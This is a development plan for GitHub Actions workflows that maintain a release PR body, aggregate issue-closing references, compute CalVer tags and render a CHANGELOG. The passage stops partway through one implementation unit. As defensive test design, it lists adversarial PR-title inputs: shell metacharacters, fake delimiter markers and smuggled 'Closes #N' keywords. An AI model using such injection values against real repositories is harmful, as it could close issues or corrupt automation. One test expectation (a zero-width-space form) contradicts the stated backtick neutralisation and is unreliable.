

# feat: Auto-maintain staging → main release PR with deterministic CHANGELOG

## Origin

GitHub issue [#4 — Auto-maintain staging → main release PR (with CHANGELOG)](https://github.com/dancj/home-bartender/issues/4).

The issue body is the authoritative spec for shapes, file names, and security must-haves. This plan deviates from the issue on two points — **deterministic CHANGELOG rendering** in place of the proposed `npx @anthropic-ai/claude-code` step, and **human-merged CHANGELOG-back PR** instead of `gh pr merge --auto` — and consolidates the bootstrap into the same PR. All deviations were confirmed with the user before planning.

---

## Problem Frame

`CLAUDE.md` documents the release flow as a PR titled `Release: staging to main (YYYY-MM-DD)` whose body MUST include a `## Closes` section enumerating every issue resolved by the PRs in that release. Today a human has to: (a) scan merged staging PRs, (b) collect issue refs, (c) assemble the body, (d) open the PR. The closing-keyword requirement makes (b)/(c) error-prone — miss one and an issue stays open through the next deploy cycle.

This plan automates the flow end-to-end:

1. As commits land on `staging`, a workflow keeps an open `staging → main` PR's body in sync — categorised PR breakdown plus the aggregated `## Closes` list.
2. When that release PR merges to `main`, a second workflow computes a CalVer version, tags the release commit, renders a deterministic Keep-a-Changelog entry, and opens a `docs:` PR back to `staging` for a human to merge so the entry rides the next release.

Two security risks from prior automation work must be handled from day one:

- **`Closes #N` injection.** Human-authored content (PR titles interpolated into bullets, prose around the managed block) can contain `Closes #99` and accidentally close issues when the release PR merges.
- **Managed-block delimiter loss.** If a human deletes only the START or END delimiter while editing, naive replacement appends a fresh block on every run until the body exceeds GitHub's 65,535-char limit and `PATCH` fails.

---

## Scope

### In scope

- Two new GitHub Actions workflows:
  - `.github/workflows/auto-release-pr.yml` (push to `staging` + `workflow_dispatch`)
  - `.github/workflows/release-changelog.yml` (push to `main`, merge-commit guarded)
- Five new helper modules under `scripts/`, all `.mjs`, all with colocated `*.test.mjs`:
  - `releaseCategorize.mjs` — pure: categorisation, `Closes` extraction/aggregation, keyword neutralisation, title sanitisation
  - `buildReleasePrBody.mjs` — pure: managed-block rendering and delimiter-aware injection (with malformed-delimiter fallback)
  - `updateVersion.mjs` — CalVer computation from tags or `VERSION.json`, CLI `--from-tags` mode
  - `buildChangelogEntry.mjs` — pure: Keep a Changelog 1.1.0 entry rendering and `## [Unreleased]`-anchored injection (deterministic, no AI)
  - `autoReleasePrRun.mjs` — orchestrator for workflow 1 (injectable deps for unit testing)
  - `releaseChangelogRun.mjs` — orchestrator for workflow 2 (injectable deps for unit testing)
- Bootstrap files committed in this PR:
  - `CHANGELOG.md` — Keep a Changelog 1.1.0 skeleton with `## [Unreleased]` + CalVer note
  - `VERSION.json` — `{ "version": "<today's CalVer>" }`
- Documentation:
  - `CLAUDE.md` — update **Release PRs (staging → main)** to note the bot-maintained body + managed-block contract
  - `docs/release-pipeline.md` — new short doc explaining both workflows, the managed-block contract, manual `workflow_dispatch` recovery, and post-merge bootstrap (initial `release-*` tag, label creation)

### Out of scope

- AI-generated CHANGELOG prose. The user picked deterministic rendering — no `ANTHROPIC_API_KEY`, no `npx @anthropic-ai/claude-code` step.
- Migrating existing branch-protection or PR-merge rules.
- Semantic versioning. CalVer (`YYYY.M.D.N`) is intentional — release cadence is time-based.
- Deploy pipeline changes. `deploy.yml` already gates production on tests + build; this plan doesn't touch it.
- Cross-workflow trigger workaround via PAT. Default `GITHUB_TOKEN` is sufficient given the solo workflow — see Key Technical Decisions.
- Auto-creation of `area:*` labels. Categorisation falls through to title prefix when labels are absent; labels remain a forward-compatible OR path that can be enabled later.
- Phased rollout. The user picked a single PR; this plan orders the work helpers-first within that PR for testability.

### Deferred to Follow-Up Work

- `area:recipe` / `area:product` label creation + a `pull_request` labeler workflow that applies them by path heuristic. Labels exist in the categoriser today but the title-prefix path is the only one in use.
- `auto-release-pr.yml` running on `pull_request: closed` (in addition to `push`) for finer-grained no-op detection on PR-merge events vs subsequent commits.
- Drift-check job for the release-PR managed block — covered under Future Considerations.

---

## Requirements

- **R1.** A push to `staging` (when `staging` is ahead of `main`) results in an open `Release: staging to main (YYYY-MM-DD)` PR whose body's managed block reflects the current state of merged staging PRs since the last release tag.
- **R2.** A push that leaves `main` and `staging` at the same SHA is a no-op — no PR is created or updated.
- **R3.** The managed block is wrapped in HTML comments (`<!-- release-pr:start -->` / `<!-- release-pr:end -->`) so a human can add notes outside it without the bot stomping them.
- **R4.** Categorisation matches the issue's rules: `label area:recipe` OR title prefix `feat(inbox):` / `feat(recipe):` → **Recipes**; `label area:product` OR `feat:` → **Features**; `fix:` → **Fixes**; `chore:` / `docs:` / `script:` / unknown → **Platform**. Label wins over prefix when both are present.
- **R5.** The aggregated `## Closes` line inside the managed block is the union of GitHub's `closingIssuesReferences` and a line-anchored regex match against PR bodies for `(?:Closes|Fixes|Resolves) #N`.
- **R6.** Every `Closes|Fixes|Resolves #N` reference in human-authored text (PR titles interpolated into bullets, prose around the managed block) is neutralised by wrapping in markdown backticks (`` `Closes #N` ``). GitHub documents backtick-wrapped closing keywords as non-auto-closing; the form is visible in source, survives copy/paste, and doesn't depend on invisible-Unicode invariants. Only the explicit `## Closes` line inside the managed block can auto-close issues.
- **R7.** When the managed-block delimiters are malformed (only START present, only END present, both missing but `## Closes` survives, multiple START or END markers), the workflow strips any stray markers, neutralises closing keywords in the surviving text, and appends a fresh managed block — never duplicates blocks or appends unboundedly.
- **R8.** A merge of the release PR to `main` (push to `main` whose merge commit subject contains `staging`) causes: (a) a new CalVer version is computed, (b) `VERSION.json` is updated, (c) the release commit on `main` is tagged `release-<version>`, (d) a Keep a Changelog 1.1.0 entry is prepended to `CHANGELOG.md` after `## [Unreleased]`, (e) a `docs: update CHANGELOG for release <version>` PR is opened against `staging` for a human to merge.
- **R9.** The CHANGELOG entry's section structure mirrors the categoriser (Recipes / Features / Fixes / Platform). Empty sections are omitted.
- **R10.** CalVer versions follow `YYYY.M.D.N` (no zero-padding). `N` starts at `1` and increments on same-day releases. Counter is computed from existing `release-*` tags; falls back to `VERSION.json` when running locally without git history.
- **R11.** All helper modules are pure where possible and have colocated `*.test.mjs` files exercising happy paths, edge cases, and error paths. Orchestrators are tested with injected `gh` / `exec` / `now` / `repo` stubs — no live GitHub calls in unit tests.
- **R12.** `npm test` continues to pass after these additions. `test.yml` and `deploy.yml` continue to gate as before.
- **R13.** `CLAUDE.md` instructs future readers that the release PR body is bot-maintained and explains the managed-block contract.
- **R14.** A new `docs/release-pipeline.md` documents the workflows, the managed-block contract, how to manually trigger `auto-release-pr.yml` if state desyncs, and the one-time post-merge bootstrap (initial `release-*` tag).

---

## High-Level Technical Design

*This illustrates the intended approach and is directional guidance for review, not implementation specification. The implementing agent should treat it as context, not code to reproduce.*

### Workflow interaction



### Managed block shape

The release-PR body is composed as `[free-form prefix] + MANAGED_BLOCK + [free-form suffix]`, where `MANAGED_BLOCK` is:

```text
<!-- release-pr:start -->
## Closes

Closes #N, Closes #M, …

## Recipes

- #PR — sanitized title (@author)

## Features

- #PR — sanitized title (@author)

## Fixes

- …

## Platform

- …

<!-- managed by .github/workflows/auto-release-pr.yml — do not edit between markers -->
<!-- release-pr:end -->
```

Empty category sections are omitted. The `## Closes` line is the ONLY place where un-neutralised closing keywords are emitted.

### Categorisation decision

```text
input: { title, labels }

if labels includes "area:recipe":                 -> "Recipes"
elif labels includes "area:product":              -> "Features"
elif title startsWith "feat(inbox):" or "feat(recipe):": -> "Recipes"
elif title startsWith "feat:":                    -> "Features"
elif title startsWith "fix:":                     -> "Fixes"
else (chore:, docs:, script:, unknown):           -> "Platform"
```

### Malformed-delimiter handling (R7)

```text
inject(existingBody, freshBlock):
    starts = count of START markers in existingBody
    ends   = count of END markers in existingBody

    if starts == 1 and ends == 1 and start precedes end:
        # well-formed → replace the block in place
        return splice(existingBody, start, end, freshBlock)

    # malformed → strip every stray START/END marker, then
    # neutralise closing keywords in the surviving prose so a
    # stale ## Closes line in human text can't trigger auto-close,
    # then append the fresh block at the end.
    stripped = removeAllMarkers(existingBody)
    safe     = neutralizeClosingKeywords(stripped)
    return safe + "\n\n" + freshBlock
```

---

## Output Structure

New files this plan introduces (existing files modified are not shown):

```text
.github/workflows/
  auto-release-pr.yml         (U8)
  release-changelog.yml       (U9)

scripts/
  autoReleasePrRun.mjs        (U6) + autoReleasePrRun.test.mjs
  buildChangelogEntry.mjs     (U5) + buildChangelogEntry.test.mjs
  buildReleasePrBody.mjs      (U3) + buildReleasePrBody.test.mjs
  releaseCategorize.mjs       (U2) + releaseCategorize.test.mjs
  releaseChangelogRun.mjs     (U7) + releaseChangelogRun.test.mjs
  updateVersion.mjs           (U4) + updateVersion.test.mjs

docs/
  release-pipeline.md         (U10)

CHANGELOG.md                  (U1)
VERSION.json                  (U1)
```

The tree is a scope declaration. Per-unit `**Files:**` sections remain authoritative.

---

## Key Technical Decisions

- **Deterministic CHANGELOG, not AI.** User chose this over the issue's `npx @anthropic-ai/claude-code` proposal. Renders entries from the same categorised-PR data the release-PR body uses — same shape, same source of truth, no API key, no per-release cost, reproducible across re-runs. Trade-off: prose is mechanical rather than narrative. Acceptable for this project's release cadence.

- **Single PR, helpers-first.** User confirmed. Within the PR, pure helpers (U2–U5) land before orchestrators (U6–U7) and workflows (U8–U9) so each layer is testable in isolation. Workflows themselves can't run until merged to `staging` (for U8) or until a release reaches `main` (for U9), so the PR ships with a documented post-merge smoke-test step.

- **Human-merged CHANGELOG-back PR.** User confirmed. `release-changelog.yml` opens the `docs: update CHANGELOG for <version>` PR against `staging` and stops there — a human reviews and merges. This sidesteps every cross-workflow recursion concern (the human's merge commit is a normal push to `staging` and triggers `auto-release-pr.yml` like any other), removes the need to enable repo-level "Allow auto-merge", and gives a natural review gate before the entry lands. The trade-off — the changelog entry doesn't ride the *immediate* next release if the human doesn't merge promptly — is acceptable for a solo project where releases are not back-to-back.

- **Default `GITHUB_TOKEN`, no PAT.** GitHub Actions intentionally does NOT re-trigger workflows on commits/pushes made by the default token, but this no longer affects this plan because all token-authored commits (the tag push from `release-changelog.yml`) happen on `main` and the only token-authored PR (the docs PR back to `staging`) is human-merged. The next staging push that triggers `auto-release-pr.yml` is always human-authored.

- **Title-prefix categorisation as the primary path.** Labels `area:recipe` / `area:product` do not exist in this repo yet. Issue's spec keeps both label and prefix as accepted inputs; this plan implements both, but only the prefix path is exercised today. Labels are forward-compatible and can be wired up via a labeler workflow later (deferred).

- **CalVer counter format `YYYY.M.D.N` (no zero-padding).** Matches the issue's stated form. `2026.5.23.1`, `2026.5.23.2`, etc. on same-day releases. Counter computed by parsing existing `release-*` tags, filtering to today's `YYYY.M.D` prefix, taking the max `N` and adding 1.

- **Numeric CalVer comparison everywhere.** `parseVersion` returns integer fields (`{year, month, day, counter}`) and `computeVersionFromTags` does numeric comparison, never lexical. No-zero-padding means `release-2026.5.23.10` sorts BEFORE `release-2026.5.23.2` lexically; the same applies at month boundaries (`2026.10.x` vs `2026.2.x`). Unit tests cover the 9→10 counter boundary and the month boundary explicitly so the implementation can't drift into lexical sort.

- **`computeVersionFromTags` is the CI source of truth; `computeVersionFromFile` exists for local-only invocation.** The CLI `node scripts/updateVersion.mjs --from-tags` is what CI runs; the file-based variant is a fallback for local scripting and gives test surface for the bootstrap case where no tags exist.

- **All subprocess invocations use `execFile` with explicit argv arrays — never a shell string.** PR titles and bodies are attacker-controlled and travel into `gh` argv positions. `node:child_process` `execFile` (or equivalent) passes argv elements directly to the kernel's `exec` syscall — no shell tokenisation, no variable expansion, no command substitution. The kernel sees title content as an opaque string in a single argv slot. U6 and U7 test scenarios assert that titles containing shell metacharacters (`$(...)`, backticks, `;`, `&&`, newlines) appear literally in rendered output and never reach a shell context.

- **Merge-commit guard for `release-changelog.yml`.** Trigger is `push: branches: [main]` plus a `if: startsWith(github.event.head_commit.message, 'Release: staging to main')` guard. The release PR title is bot-set and deterministic (and not rewritten on subsequent body updates), so the prefix is a stable signal. Belt-and-suspenders: `releaseChangelogRun.mjs` performs a defensive first-parent ancestry check at runtime and exits cleanly if the merge commit doesn't look like a release-PR merge. False negatives are recoverable via `workflow_dispatch`.

- **Initial `release-*` tag is a post-merge manual step, not part of the PR.** Tagging the current `main` HEAD can't be done inside the merge commit of this PR — the tag points AT a merge SHA that only exists after merge. Documented in `docs/release-pipeline.md` and in the PR description as a one-time post-merge action: `git tag release-<initial> main && git push origin release-<initial>`.

- **`VERSION.json` bootstrap value matches the initial tag.** Set to today's CalVer (`2026.5.23.1`) at PR write time, with a note in the PR description that if merge slips past today, the value should be bumped to merge-day's CalVer before tagging.

- **PR title contains `(YYYY-MM-DD)` date but it's the OPEN date, not the merge date.** The title is set when the release PR is first opened and is not rewritten on subsequent body updates — rewriting the title every time the workflow runs creates noisy notifications and breaks branch-protection auto-merge state. The CHANGELOG entry uses the merge-day date instead, which is what most consumers care about.

- **`gh pr list --json closingIssuesReferences` is authoritative; regex is a backstop.** GitHub's GraphQL-derived field handles `Fixes #N`, `Resolves #N`, cross-repo refs (e.g., `owner/repo#N`), and linked issues set via the UI. The line-anchored regex against PR body text catches edge cases where the field is empty (e.g., issues that GitHub didn't auto-link due to repo permissions during PR open). Union — never just one source.

- **Body length safety.** GitHub PR body limit is 65,535 chars. The managed block is bounded by the number of merged PRs since the last tag (release windows are days/weeks, not months). Practical worst case is ~50 PRs × 200 chars = 10 KB. No truncation needed; if the limit is ever approached the workflow should fail loudly rather than silently truncate.

---

## System-Wide Impact

- **`CLAUDE.md`** — Release PRs section gains a note about the managed block and the bot-maintained body contract.
- **`docs/release-pipeline.md`** — new operator doc.
- **CI surface** — adds two workflow files. `test.yml` (gating tests on every PR) catches helper-script regressions. `deploy.yml` is unaffected.
- **Repo settings** — no required changes. Recommended (not part of PR): enable "Require `test` workflow to pass" branch protection on `staging` and `main`. Tag protection on the `release-*` namespace is captured as an open question.
- **Repo git tags** — introduces a new `release-*` tag namespace. Operator must create the initial tag post-merge.
- **Closing keywords in PRs targeting `staging`** — unchanged behaviour from GitHub. Auto-close only happens when the merge commit on the default branch (`main`) contains the keyword, which is true only of the managed block inside the release PR.

---

## Risk Analysis & Mitigation

| Risk | Likelihood | Impact | Mitigation |
|---|---|---|---|
| `Closes #N` injection from a borrowed PR title or human prose around the managed block accidentally closes an unrelated issue | Medium | High (lost product state) | Neutralise closing keywords everywhere outside the managed block by wrapping in backticks (GitHub-documented non-auto-closing form: `` `Closes #N` ``). Visible in source, survives copy/paste, doesn't depend on invisible-Unicode invariants. Helper `neutralizeClosingKeywords` is unit-tested with deliberately adversarial inputs and idempotent on already-wrapped input. |
| PR title containing literal delimiter strings (`<!-- release-pr:start -->`, `<!-- release-pr:end -->`) or `<!--` / `-->` markers injects a fake delimiter into a rendered bullet, splitting the managed block | Low | Medium (managed block fragments; next run triggers malformed-fallback) | `sanitizeTitle` strips or escapes literal occurrences of `DELIMITER_START` / `DELIMITER_END` and HTML comment open/close markers. Unit-tested with adversarial title inputs that contain the exact delimiter strings. |
| Human deletes a delimiter while editing — naive replacement appends a fresh block every run until body exceeds 65,535 chars | Medium | High (PATCH fails, automation breaks) | `injectIntoBody` detects malformed state (zero/multi START or END markers, or START after END), strips all stray markers, neutralises closing keywords in surviving text, appends one fresh block. Unit tests cover every malformed permutation. |
| Two simultaneous pushes to `staging` race on the same release PR `PATCH` | Low (solo project) | Low (PATCH is idempotent; last write wins) | `concurrency: { group: auto-release-pr, cancel-in-progress: false }` in the workflow so runs serialise. |
| First run hits no existing `release-*` tag and SINCE_DATE fallback widens the window unexpectedly | High (by design, once) | Low | Bootstrap step (operator creates `release-<initial>` immediately after merge) closes this on day one. `computeVersionFromTags` documents the hardcoded ISO fallback date in the source. |
| `release-changelog.yml` fires on a non-release push to `main` because the heuristic matched `staging` in an unrelated commit message | Low | Medium (spurious CHANGELOG PR + tag) | Guard is `startsWith(github.event.head_commit.message, 'Release: staging to main')` — the release PR title is bot-set and deterministic, so prefix matching is reliable. `releaseChangelogRun` performs a defensive first-parent ancestry check before tagging and exits cleanly if the merge commit doesn't look like a release-PR merge. |
| `gh pr list --json closingIssuesReferences` returns empty for a PR whose body has `Closes #N` (e.g., issue in another repo with limited visibility) | Medium | Low | Line-anchored regex on PR bodies catches it. Union dedup. |
| Body PATCH fails partway through (e.g., transient 5xx) leaving an inconsistent state | Low | Low | Idempotent upsert — next push re-renders from scratch. Workflow doesn't retry inside a single run; it relies on the next trigger. |

---

## Implementation Units

Units land in a single PR but are ordered for review. Pure helpers (U2–U5) come first, then orchestrators (U6–U7), then workflows (U8–U9), then docs (U10).

All feature-bearing units follow TDD per `CLAUDE.md` — write the failing test first, watch it fail, implement, watch it pass, refactor. `Execution note` calls this out where it matters.

### U1. Bootstrap files (`CHANGELOG.md`, `VERSION.json`)

- **Goal:** Land the file scaffolding the workflows assume exists.
- **Requirements:** R8, R9, R10 (foundation).
- **Dependencies:** none.
- **Files:**
  - `CHANGELOG.md` (new)
  - `VERSION.json` (new)
- **Approach:**
  - `CHANGELOG.md` follows [Keep a Changelog 1.1.0](https://keepachangelog.com/en/1.1.0/): top-level `# Changelog` header, project description sentence noting CalVer (`YYYY.M.D.N`) versioning, single `## [Unreleased]` heading with no subsections (workflow prepends new entries above this marker on each release).
  - `VERSION.json` holds today's CalVer at write time: `{ "version": "2026.5.23.1" }`. If merge day differs from plan-write day, the value is updated before tagging — see `docs/release-pipeline.md`.
- **Patterns to follow:** none — both files are config.
- **Test scenarios:** Test expectation: none — bootstrap config files only. The helpers that read/write them are tested in U4, U5, U7.
- **Verification:** Files exist at repo root with the documented contents. `npm run validate` and `npm test` still pass (no behavioural change).

### U2. `scripts/releaseCategorize.mjs` (pure helpers)

- **Goal:** Categorise PRs into release sections, extract and aggregate `Closes #N` references, neutralise injection attempts, and sanitise PR titles for bullets.
- **Requirements:** R4, R5, R6, R7 (R7 needs the neutralizer).
- **Dependencies:** U1.
- **Files:**
  - `scripts/releaseCategorize.mjs` (new)
  - `scripts/releaseCategorize.test.mjs` (new)
- **Approach:**
  - Export: `categorizePr({ title, labels })`, `extractClosesFromBody(body)`, `aggregateClosesIssues(prs)`, `neutralizeClosingKeywords(text)`, `sanitizeTitle(title)`. (`DELIMITER_START` / `DELIMITER_END` live in U3 alongside the injection logic that consumes them.)
  - `categorizePr` decision order: labels first (`area:recipe` → Recipes, `area:product` → Features), then title-prefix (`feat(inbox|recipe):` → Recipes; `feat:` → Features; `fix:` → Fixes; `chore:|docs:|script:|unknown` → Platform). Returns one of four section names.
  - `extractClosesFromBody` uses a line-anchored regex `^\s*(?:Closes|Fixes|Resolves)\s+#(\d+)` (case-insensitive) so a bare `#123` in prose isn't captured. Returns array of integers.
  - `aggregateClosesIssues` unions `closingIssuesReferences` (number form) with the regex output across all PRs, dedups, sorts ascending. Returns sorted array of integers.
  - `neutralizeClosingKeywords` finds `\b(Closes|Fixes|Resolves)\s+#\d+` (case-insensitive) and wraps the match in markdown backticks (`` `Closes #99` ``). GitHub-documented non-auto-closing form. Idempotent — running on text already inside backticks doesn't re-wrap.
  - `sanitizeTitle` strips trailing whitespace, collapses internal whitespace, then in order: (a) strips literal occurrences of `DELIMITER_START` / `DELIMITER_END` (imported from U3) so a title can't inject a fake managed-block marker, (b) strips `<!--` / `-->` HTML comment markers so titles can't break out of the managed block's wrapping notice, (c) applies `neutralizeClosingKeywords` so a borrowed title can't smuggle a closing keyword into a bullet.
- **Execution note:** Test-first. The categoriser and neutraliser have rich edge-case surface (case sensitivity, label-vs-prefix precedence, dedup semantics, idempotency).
- **Patterns to follow:** `scripts/validate.mjs` — pure-function exports, no top-level side effects, no CLI in this module.
- **Test scenarios:**
  - `categorizePr` — Recipes: label `area:recipe` alone returns `"Recipes"`. Recipes: title `"feat(inbox): add margarita"` with no labels returns `"Recipes"`. Recipes: title `"feat(recipe): add daiquiri"` returns `"Recipes"`. Features: label `area:product` alone returns `"Features"`. Features: title `"feat: new search filter"` returns `"Features"`. Fixes: title `"fix: prevent double-submit"` returns `"Fixes"`. Platform: title `"chore: bump deps"` returns `"Platform"`. Platform: title `"docs: update README"` returns `"Platform"`. Platform: title `"script: backfill"` returns `"Platform"`. Platform: unknown prefix `"random text"` returns `"Platform"`. Precedence: title `"fix: oops"` + label `area:recipe` returns `"Recipes"` (label wins).
  - `extractClosesFromBody` — extracts `Closes #1`, `Fixes #2`, `Resolves #3`, case-insensitive (`closes #4`). Skips bare `#5` with no keyword. Skips `Closes#6` (no whitespace). Skips inline mid-line `text Closes #7` only if anchored — confirm whether `^\s*` allows leading whitespace; spec the chosen behaviour in the test. Returns `[]` for empty body. Handles `null` body.
  - `aggregateClosesIssues` — empty input returns `[]`. Single PR with `closingIssuesReferences: [{number: 5}]` returns `[5]`. Body-only `Closes #10` returns `[10]`. Union: `closingIssuesReferences: [{number: 5}]` + body `Closes #5` returns `[5]` (dedup). Sort: input `[3, 1, 2]` returns `[1, 2, 3]`.
  - `neutralizeClosingKeywords` — `"Closes #1"` → `` "`Closes #1`" ``. Case-insensitive: `"fixes #2"` → `` "`fixes #2`" ``. Idempotent: applying twice produces identical output (already-backticked input passes through unchanged). Doesn't touch `"Closes the deal"` (no `#N` after). Wraps each occurrence independently in multi-keyword text.
  - `sanitizeTitle` — `"  feat: foo  "` → `"feat: foo"`. Internal collapse: `"feat:  foo\t bar"` → `"feat: foo bar"`. Neutralises: `"feat: Closes #99 inline"` → `` "feat: `Closes #99` inline" ``. **Delimiter stripping:** `"feat: <!-- release-pr:end --> exploit"` → `"feat: exploit"` (delimiter and HTML comment markers gone). **HTML comment stripping:** `"feat: <!-- note --> add foo"` → `"feat: note add foo"` (markers stripped, inner text preserved as collapsed whitespace).

- **Verification:** All test scenarios pass. Module exports the documented surface.

### U3. `scripts/buildReleasePrBody.mjs` (pure rendering + injection)

- **Goal:** Render the managed block and inject it into an existing PR body, handling all malformed-delimiter cases without unbounded growth.
- **Requirements:** R3, R7.
- **Dependencies:** U2.
- **Files:**
  - `scripts/buildReleasePrBody.mjs` (new)
  - `scripts/buildReleasePrBody.test.mjs` (new)
- **Approach:**
  - Export: `DELIMITER_START`, `DELIMITER_END`, `renderReleaseBody({ since, prs, closesIssues })`, `injectIntoBody(existingBody, managedBlock)`. Delimiter constants live here because the injection logic is their only consumer in this module set; U2's `sanitizeTitle` imports them from U3 to strip literal occurrences.
  - `renderReleaseBody`:
    - Sanitises titles via `sanitizeTitle` from U2.
    - Groups PRs by category (using `categorizePr`).
    - Emits sections in fixed order: Recipes, Features, Fixes, Platform. Skips empty sections.
    - Builds the `## Closes` line as `Closes #N, Closes #M, …` from `closesIssues`. Omits the line entirely when the array is empty.
    - Wraps in delimiter comments + the "managed by … do not edit between markers" notice.
  - `injectIntoBody`:
    - Counts START and END markers.
    - **Well-formed (exactly one of each, START precedes END):** splice the fresh block in place.
    - **Malformed (any other configuration):** strip every START and END marker substring from the body, run `neutralizeClosingKeywords` on the result, then append `"\n\n" + freshBlock`.
    - Empty `existingBody` (new PR): return the fresh block alone.
- **Execution note:** Test-first — malformed cases are the whole reason this helper exists.
- **Patterns to follow:** Pure exports as in U2. No file I/O. No process.exit.
- **Test scenarios:**
  - `renderReleaseBody` — empty PRs returns a block with just the delimiters + management notice (no sections, no Closes line). One Recipes PR + no Closes: renders only the Recipes section. Mixed categories: all four sections present in correct order. Empty Closes array: no `## Closes` line emitted. Closes `[5, 10, 3]`: line reads `Closes #3, Closes #5, Closes #10` (sorted, but `aggregateClosesIssues` already sorts — this asserts the renderer preserves order). Sanitisation: title `"feat: Closes #99"` appears in the bullet as `"feat: Closes​#99"`.
  - `injectIntoBody` — empty existing body returns the fresh block. Well-formed body (prefix + START + old block + END + suffix) returns prefix + fresh block + suffix. **Malformed: missing END.** Existing body `"<!-- release-pr:start -->\nold content with Closes #99"` strips the START marker, neutralises the inline `Closes #99`, appends fresh block. **Malformed: missing START.** Symmetric. **Malformed: both markers missing but `## Closes #99` survives in body text.** Strips nothing (no markers found), neutralises `Closes #99`, appends fresh block. **Malformed: two START markers.** Strips both, neutralises, appends fresh. **Malformed: END precedes START.** Strips both, neutralises, appends fresh.
  - Idempotency — calling `injectIntoBody` twice in a row on the well-formed result is a no-op when the fresh block is identical, and a replacement when it differs.
- **Verification:** All test scenarios pass. Body never grows unboundedly under any malformed input.

### U4. `scripts/updateVersion.mjs` (version computation + CLI)

- **Goal:** Compute the next CalVer version from existing `release-*` tags (CI mode) or from `VERSION.json` (local fallback), and persist to `VERSION.json` when invoked with `--from-tags`.
- **Requirements:** R10.
- **Dependencies:** U1.
- **Files:**
  - `scripts/updateVersion.mjs` (new)
  - `scripts/updateVersion.test.mjs` (new)
- **Approach:**
  - Export: `parseVersion(tagOrString)`, `getTodayPrefix(now)`, `computeVersionFromTags(tags, now)`, `computeVersionFromFile(versionJson, now)`.
  - `parseVersion(s)`: accepts `"release-2026.5.23.1"` or bare `"2026.5.23.1"`, returns `{ year, month, day, counter }` or throws on malformed input.
  - `getTodayPrefix(now)`: returns `"YYYY.M.D"` (no zero-pad) from a `Date`.
  - `computeVersionFromTags(tags, now)`: filters `tags` to `release-*` form, parses each, filters to today's prefix, returns next counter (`max(counter) + 1`). When no tags match today's prefix, returns counter `1`.
  - `computeVersionFromFile(versionJson, now)`: parses the `version` string, applies same-day-increment logic against today's prefix.
  - CLI behaviour (only when run directly, guarded by `import.meta.url === process.argv[1]` per `validate.mjs` pattern): if `--from-tags`, shell out to `git tag --list 'release-*'` via the orchestrator's injected `exec`, compute next version, write `VERSION.json`, print the version to stdout. Without flag, compute from `VERSION.json` and print.
  - The CLI is intentionally thin — actual git/file I/O lives in the orchestrator (U7) so this script's pure helpers stay unit-testable.
- **Execution note:** Test-first on the pure functions. CLI mode is exercised via the orchestrator in U7.
- **Patterns to follow:** `scripts/validate.mjs` ESM + `import.meta.url` CLI guard.
- **Test scenarios:**
  - `parseVersion` — `"release-2026.5.23.1"` returns `{year:2026, month:5, day:23, counter:1}`. Bare `"2026.5.23.1"` returns same. Throws on `"release-2026.5"`, `"2026.05.23.1"` (zero-padded is rejected by design), `"not-a-version"`, empty string.
  - `getTodayPrefix` — `new Date('2026-05-23T12:00:00Z')` → `"2026.5.23"`. `new Date('2026-01-05T00:00:00Z')` → `"2026.1.5"`. Confirm UTC vs local: prefer UTC to match `release-*` tag deterministic semantics.
  - `computeVersionFromTags` — empty tags + today `2026-05-23` returns `"2026.5.23.1"`. Tags `["release-2026.5.22.1"]` + today `2026-05-23` returns `"2026.5.23.1"`. Tags `["release-2026.5.23.1", "release-2026.5.23.2"]` + today `2026-05-23` returns `"2026.5.23.3"`. Tags with malformed entries are ignored, not thrown. Tags from older dates don't influence today's counter. **Numeric counter boundary:** tags `["release-2026.5.23.9", "release-2026.5.23.10"]` + today `2026-05-23` returns `"2026.5.23.11"` (NOT `"2026.5.23.10"` — proves numeric comparison, not lexical). **Month-boundary numeric sort:** tags `["release-2026.10.1.1", "release-2026.2.1.1"]` + today `2026-10-02` returns `"2026.10.2.1"` (newest tag identified numerically, not lexically).
  - `computeVersionFromFile` — `{version:"2026.5.22.1"}` + today `2026-05-23` returns `"2026.5.23.1"`. `{version:"2026.5.23.1"}` + today `2026-05-23` returns `"2026.5.23.2"`. Missing/malformed `version` field falls back to `"<today>.1"`.
- **Verification:** Helpers pass tests. CLI mode prints the expected next version when run manually (smoke test only; orchestrator covers integration).

### U5. `scripts/buildChangelogEntry.mjs` (deterministic CHANGELOG rendering)

- **Goal:** Render a Keep a Changelog 1.1.0 entry deterministically from the categorised-PR data, and inject it into `CHANGELOG.md` after the `## [Unreleased]` heading.
- **Requirements:** R8, R9.
- **Dependencies:** U2 (uses `categorizePr` for the same shape as the release PR body).
- **Files:**
  - `scripts/buildChangelogEntry.mjs` (new)
  - `scripts/buildChangelogEntry.test.mjs` (new)
- **Approach:**
  - Export: `renderChangelogEntry({ version, date, prs })`, `injectChangelogEntry(existingChangelog, entry)`.
  - `renderChangelogEntry`:
    - Heading: `## [<version>] - <YYYY-MM-DD>` (Keep a Changelog convention, ISO date).
    - Sections in fixed order: Recipes, Features, Fixes, Platform. Skip empty sections.
